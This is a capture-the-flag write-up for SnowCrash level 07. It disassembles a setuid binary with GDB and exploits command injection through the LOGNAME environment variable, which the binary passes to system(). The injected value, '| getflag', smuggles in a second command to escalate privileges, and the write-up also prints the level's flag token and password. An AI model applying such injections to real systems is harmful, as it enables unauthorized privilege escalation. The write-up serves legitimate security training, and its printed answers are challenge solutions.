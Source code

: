 # Level 07

- We login as user level07.
```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

```
level07@SnowCrash:~$ ./level07
level07
```


- A binary has been left for us. Let's take a closer look at this binary using [GDB](https://en.wikipedia.org/wiki/GNU_Debugger).
```
(gdb) info functions
All defined functions:

File /home/user/level07/level07.c:
int main(int, char **, char **);

Non-debugging symbols:
0x08048384  _init
...
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048514 <+0>:     push   %ebp
   0x08048515 <+1>:     mov    %esp,%ebp
   0x08048517 <+3>:     and    $0xfffffff0,%esp
   0x0804851a <+6>:     sub    $0x20,%esp
   0x0804851d <+9>:     call   0x80483f0 <getegid@plt>
   0x08048522 <+14>:    mov    %eax,0x18(%esp)
   0x08048526 <+18>:    call   0x80483e0 <geteuid@plt>
   0x0804852b <+23>:    mov    %eax,0x1c(%esp)
   0x0804852f <+27>:    mov    0x18(%esp),%eax
   0x08048533 <+31>:    mov    %eax,0x8(%esp)
   0x08048537 <+35>:    mov    0x18(%esp),%eax
   0x0804853b <+39>:    mov    %eax,0x4(%esp)
   0x0804853f <+43>:    mov    0x18(%esp),%eax
   0x08048543 <+47>:    mov    %eax,(%esp)
   0x08048546 <+50>:    call   0x8048450 <setresgid@plt>
   0x0804854b <+55>:    mov    0x1c(%esp),%eax
   0x0804854f <+59>:    mov    %eax,0x8(%esp)
   0x08048553 <+63>:    mov    0x1c(%esp),%eax
   0x08048557 <+67>:    mov    %eax,0x4(%esp)
   0x0804855b <+71>:    mov    0x1c(%esp),%eax
   0x0804855f <+75>:    mov    %eax,(%esp)
   0x08048562 <+78>:    call   0x80483d0 <setresuid@plt>
   0x08048567 <+83>:    movl   $0x0,0x14(%esp)
   0x0804856f <+91>:    movl   $0x8048680,(%esp)
   0x08048576 <+98>:    call   0x8048400 <getenv@plt>
   0x0804857b <+103>:   mov    %eax,0x8(%esp)
   0x0804857f <+107>:   movl   $0x8048688,0x4(%esp)
   0x08048587 <+115>:   lea    0x14(%esp),%eax
   0x0804858b <+119>:   mov    %eax,(%esp)
   0x0804858e <+122>:   call   0x8048440 <asprintf@plt>
   0x08048593 <+127>:   mov    0x14(%esp),%eax
   0x08048597 <+131>:   mov    %eax,(%esp)
   0x0804859a <+134>:   call   0x8048410 <system@plt>
   0x0804859f <+139>:   leave
   0x080485a0 <+140>:   ret
End of assembler dump.
```


- The program calls `<getenv@plt>` after moving the address `0x8048680` on top of the stack.
```
(gdb) x/s 0x8048680
0x8048680:       "LOGNAME"
```


- `<getenv@plt>` will thus save the value of the `LOGNAME` environment variable in the `eax` register, and this value will be passed as a parameter to the `<asprintf@plt>` function. Note that later, the address `0x8048688` will also be moved on top of the stack to be used by `<asprintf@plt>`.
```
(gdb) x/s 0x8048688
0x8048688:       "/bin/echo %s"
```


- Then, `<asprintf@plt>` will store in the `eax` register the address pointing to the string `/bin/echo %s`, where `%s` will be replaced by the contents of the `LOGNAME` environment variable.
The resulting string will be executed by calling `<system@plt>`, so:
```
level07@SnowCrash:~$ export LOGNAME="| getflag"
```

```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

```
level07@SnowCrash:~$ su level08
Password:fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$
```